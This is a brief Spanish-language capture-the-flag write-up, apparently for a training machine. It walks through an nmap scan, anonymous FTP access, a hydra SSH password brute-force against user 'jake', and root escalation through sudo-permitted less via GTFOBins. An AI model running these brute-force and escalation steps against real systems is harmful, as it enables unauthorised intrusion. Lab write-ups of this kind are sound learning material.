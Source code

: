 ### Tags: `ftp` `anonymous` `hydra`

# Escaneo (*21,22,80*)
```css
  sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn -oN escaneo
```
![image](https://github.com/user-attachments/assets/a4985c39-ce0e-4cd6-81d3-f4c331d91823)
![image](https://github.com/user-attachments/assets/210435e6-ff8e-4934-a3ed-3176b5f46d1c)

# FTP
Como vimos podemos accder como ``anonymous`` y es lo que vamos a hacer, una ves dentro con `get` nos traemos el `.txt`

![image](https://github.com/user-attachments/assets/3c927834-8f23-4bc9-a705-e6f7d5007717)

En la nota hay 2 posibles usuarios `amy` y `jake` 

![image](https://github.com/user-attachments/assets/3de86668-a5a7-4c47-a3e0-d9cc59a54120)

## Hydra (**jake**)
Con hydra obtuvimos la password de `jake` para conectranos por `ssh` ya que el puerto `22/open`

```ruby
 hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.51.68
````

![image](https://github.com/user-attachments/assets/b7b97fb8-1ea4-48bf-b6e0-5190d1c86dad)
![image](https://github.com/user-attachments/assets/4e7c48d7-ba50-4759-9c9f-f323c33c64d4)

# Escalada ROOT
Ejecutando `sudo -l` podemos ejecutar como root `/usr/bin/less`, nos vamos a [GTFOBins](https://gtfobins.github.io/) y listo

![image](https://github.com/user-attachments/assets/bf3e25ca-5160-450b-b968-479eac603455)
